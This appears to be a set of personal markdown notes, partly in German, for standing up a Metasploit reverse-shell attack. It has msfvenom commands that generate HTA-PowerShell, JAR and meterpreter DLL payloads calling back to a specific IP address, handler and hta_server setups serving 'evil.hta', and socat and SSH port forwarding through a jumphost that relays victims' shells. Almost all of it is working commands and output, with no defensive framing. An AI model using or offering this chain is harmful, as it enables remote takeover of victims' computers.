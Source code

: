 # Prepair
```
msfvenom -a x86 -p windows/shell/reverse_tcp LHOST=178.254.30.161 LPORT=443 -f hta-psh
msfvenom -a x86 -p java/shell_reverse_tcp LHOST=178.254.30.161 LPORT=443 -o foo.jar -f jar
msfvenom -p windows/meterpreter/reverse_tcp LHOST=178.254.30.161 LPORT=443 -f dll -o pentestlab.dll
```

## Multihandlet payload
```
use exploit/multi/handler
set payload java/shell/reverse_tcp
set LHOST localLaptop
set LPORT 4444
set VERBOSE TRUE
run
```

## on Laptop where Multihandler is launched
```
msf > use exploit/windows/misc/hta_server
      set URIPATH evil.hta
      set LPORT 4444
      set VERBOSE TRUE
      run
[*] Exploit running as background job.
[*] Started reverse TCP handler on 192.168.178.27:4444
[*] Using URL: http://0.0.0.0:8080/evil.hta
[*] Local IP: http://192.168.178.27:8080/evil.hta
[*] Server started.
```

## Muss noch ein zweiten socat setzen der incoming powershell rev an :4444 weiterreicht ???
port forward on jumphost
```
root@jumphost:~# socat -d -d -d tcp4-listen:80,reuseaddr,fork tcp4:127.0.0.1:1111
root@jumphost:~# socat -d -d -d tcp4-listen:4444,reuseaddr,fork tcp4:127.0.0.1:2222
```

## port forward on jumphost - only connections from range allowed
```
root@jumphost:~# socat -d -d -d tcp4-listen:80,reuseaddr,fork,range=193.28.64.18/32 tcp4:127.0.0.1:1111
root@jumphost:~# socat -d -d -d tcp4-listen:80,reuseaddr,fork,range=84.170.159.180/32 tcp4:127.0.0.1:1111
user@Local$ ssh -NfR 1111:127.0.0.1:8080 root@178.254.30.161 # Remote port forward to jumphost

root@jumphost:~# netstat -tulpen
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      0          1347484488  4765/socat
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          1312344026  227/sshd
tcp        0      0 127.0.0.1:1111          0.0.0.0:*               LISTEN      1000       1347484421  4764/sshd
```

## victim accsses hta on jumphost
```
http://178.254.30.161/evil.hta
```

## simulated victim rev Shell incoming
```
echo "remote c" | nc 178.254.30.161 80
```

## Spaawning
spawn multihandler 4444 ->  connect multihandlet 2 ssh port 127.0.0.1:5555
user@Local$ socat -d -d  TCP:localhost:4444 TCP:localhost:5555

tags: [reverse shell] meterpreter jumphost ssh
